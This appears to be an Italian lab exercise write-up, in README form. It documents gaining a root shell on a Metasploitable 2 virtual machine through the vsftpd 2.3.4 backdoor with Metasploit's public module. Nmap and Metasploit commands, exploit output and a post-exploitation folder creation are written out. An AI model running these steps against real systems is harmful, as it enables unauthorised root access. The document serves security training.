

# 🚀 Hacking con Metasploit - Exploit vsftpd 2.3.4

## 📋 Descrizione dell'Esercizio
L'obiettivo di questa attività era condurre un attacco utilizzando **Metasploit Framework** contro una macchina virtuale vulnerabile **Metasploitable 2**. Abbiamo sfruttato una backdoor presente nel servizio **vsftpd 2.3.4** sulla porta FTP (21). 

🎯 **Risultato finale**: Creazione di una cartella chiamata **test_metasploit** all'interno della directory **/root** della macchina target, dimostrando il successo dell'attacco.

---

## 🛠️ Configurazione dell'Ambiente

### 🖥️ Macchina Attaccante
- **Sistema Operativo**: Kali Linux 2023.1
- **Strumento**: Metasploit Framework

### 🎯 Macchina Target
- **Sistema Operativo**: Metasploitable 2
- **Indirizzo IP**: `192.168.1.149/24`
- **Servizio Vulnerabile**: vsftpd 2.3.4
- **Porta FTP**: 21

---

## 🔎 Passaggi Eseguiti

### 1️⃣ Scansione del Servizio FTP
Ho utilizzato **Nmap** per verificare la presenza del servizio FTP sulla porta 21 della macchina target:
```bash
nmap -p 21 192.168.1.149
```
✅ **Output**:
```
PORT   STATE SERVICE
21/tcp open  ftp
```
La scansione conferma che il servizio FTP sulla porta 21 è attivo.

---

### 2️⃣ Avvio di Metasploit e Caricamento dell'Exploit
Ho avviato Metasploit e cercato l'exploit per **vsftpd 2.3.4**:
```bash
msfconsole
search vsftpd
```
Ho selezionato e configurato l'exploit:
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.1.149
set RPORT 21
```

---

### 3️⃣ Esecuzione dell'Exploit
Ho lanciato l'exploit con il comando:
```bash
exploit
```

🚀 **Output**:
```
[*] 192.168.1.149:21 - The port used by the backdoor bind listener is already open
[+] 192.168.1.149:21 - UID: uid=0(root) gid=0(root)
[*] Command shell session 1 opened...
```
🎉 L'exploit ha avuto successo e ho ottenuto una **shell con privilegi root**.

---

### 4️⃣ Navigazione e Creazione della Cartella
Dopo aver ottenuto accesso alla shell, ho verificato la struttura delle directory e ho creato la cartella **test_metasploit**:
```bash
cd /root
mkdir test_metasploit
ls
```
✅ **Output**:
```
hacking_test  test_metasploit
```
📁 La cartella **test_metasploit** è stata creata con successo.

---

## 🖼️ Screenshot dei Risultati
1. **Avvio dell'Exploit**: Ottenimento della shell root.
2. **Creazione della Cartella**: Verifica della presenza di `test_metasploit`.

 
 

 
 


---

## 🏆 Risultati Finali
- ✅ **Accesso Root Ottenuto**: Ho sfruttato con successo la vulnerabilità del servizio `vsftpd 2.3.4`.
- 📂 **Creazione della Cartella**: La cartella `test_metasploit` è stata creata nella directory `/root`.

---

## 🔐 Conclusioni
L'esercizio ha dimostrato come una versione obsoleta e vulnerabile di un servizio possa essere sfruttata per ottenere accesso root a un sistema remoto. Questa attività evidenzia l'importanza di:
1. 🛡️ **Patch di Sicurezza**: Mantenere i servizi aggiornati.
2. 🔍 **Monitoraggio**: Controllare costantemente i servizi in ascolto su una macchina.
3. 🧪 **Ambienti Isolati**: Eseguire test di sicurezza in ambienti controllati come Metasploitable.

---

## 📚 Comandi Utilizzati
1. **Scansione Nmap**:
   ```bash
   nmap -p 21 192.168.1.149
   ```
2. **Configurazione Metasploit**:
   ```bash
   msfconsole
   use exploit/unix/ftp/vsftpd_234_backdoor
   set RHOST 192.168.1.149
   set RPORT 21
   exploit
   ```
3. **Navigazione e Creazione Cartella**:
   ```bash
   cd /root
   mkdir test_metasploit
   ls
   ```

---

